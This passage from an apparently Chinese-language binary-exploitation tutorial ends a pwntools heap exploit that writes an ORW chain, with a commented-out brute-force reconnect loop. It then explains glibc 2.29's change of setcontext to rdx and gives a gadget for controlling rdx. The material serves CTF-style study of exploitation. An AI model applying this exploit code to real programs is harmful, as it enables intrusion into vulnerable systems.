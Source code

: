 ```python
    edit(pl)

    add(0x60)
    edit(orw[:0x60])
    add(0x50)
    edit(orw[0x60:])

    delete()
    itr()

#爆破
'''
i = 0
while 1:
    i += 1
    log.warn(str(i))
    try:  
        pwn()
    except Exception:
        p.close()
        if(local == 1):
            p = process(binary)
        else:
            p = remote(ip,port)
        continue
'''

if __name__ == '__main__':
    pwn()
```

0x07 高版本GLIBC-SETCONTEXT的变化
===========================

在GLIBC版本为2.29开始，setcontext的索引就从rdi改成了rdx

如图：

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-9d62001f63645f4dd7a3b7cff4c08b03d0cf1ebf.png)

如果我们按照之前的思路的话，需要我们先通过ROP控制RDX的值。众所周知利用gadget控制rdx的寄存器比较困难。那么这样的话我们需要找到一些比较方便的gadget去间接控制rdx寄存器。

gadget
------

第一个是getkeyserv\_handle+576

可以通过这个gadget通过rdi来控制rdx寄存器（适用版本为Glibc2.29到2.32

```python
mov     rdx, [rdi+8]
mov     [rsp+0C8h+var_C8], rax
call    qword ptr [rdx+20h]
```
